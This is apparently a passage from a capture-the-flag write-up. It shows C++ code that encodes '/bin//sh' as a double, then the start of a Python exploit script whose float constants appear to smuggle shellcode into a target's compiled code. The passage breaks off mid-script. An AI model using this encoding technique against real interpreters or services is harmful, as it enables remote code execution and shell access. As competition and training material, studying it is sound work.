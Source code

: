 ### Note 4
This is how you can convert bytes of shell into double value:
```cpp
#include <iostream>
#include <iomanip>
#include <cstring>

int main() {
	union {
		char bytes[sizeof(double)];
		double v;
	};
	std::strncpy(bytes, "/bin//sh", sizeof(double));
	std::cout << std::setprecision(30) << v << std::endl;
    return 0;
}
```

### Result

Combining it all together, we got [next sploit](/sploits/dcs/dcs.1.sploit.py):

```python
#!/usr/bin/env python3

import hashlib
import sys

import api

code = '''
_0000 = 4.45822432662471531958872096101e+252;
_0001 = 1.19782304862903820345902151854e+243;
_0002 = 1.91433085964668933099730042059e+261;
_0003 = 3.98455339352822777031486764751e+252;
_0004 = 9.73522563016263357401293305748e-315;
_0005 = 3.88936149933469592127393174833e+174;
_0006 = 3.88936149933469592127393174833e+174;
_0007 = 4.45822432662471531958872096101e+252;
_0008 = 5.93621147035131015845707833809e+169;
_0009 = 5.52559648449915692702815701664e+257;
_000a = 6.32280097505374462953932699201e+233;
_000b = 8.25971437587339054081582628633e-154;
_000c = 9.31476625662437923964372193661e+242;
_000d = 5.93621147035131015845707833809e+169;
_000e = 6.53747834600816911773243398146e-125;
_000f = 6.53747834600816911773243398146e-125;
_0010 = 3.9381538893456823461224877281e-62;
_0011 = 3.11888404251331059194979670708e+161;
_0012 = 5.52559648449915692702815701664e+257;
_0013 = 3.4653160729132520229722030536e+185;
_0014 = 1.29503525642399536129001394637e+171;
_0015 = 1.9143324972053054017456038103e+261;
_0016 = 5.52559648449915692702815701664e+257;
_0017 = 1.33980497747332409769287086757e-152;
_0018 = 3.88936149933469592127393174833e+174;
_0019 = 4.39558737237486546973012633094e+252;
_001a = 1.91429491296407703192166757816e+261;
_001b = -6.82761769577296130672065869357e-229;
_001c = 1.19782304862903820345902151854e+243;
_001d = 1.35452787268204745946619571028e+243;
_001e = -3605727437012366848;
_001f = -11920.0000000052332325140014291;
_0020 = -1.13962551584212620632980908507e-244;
```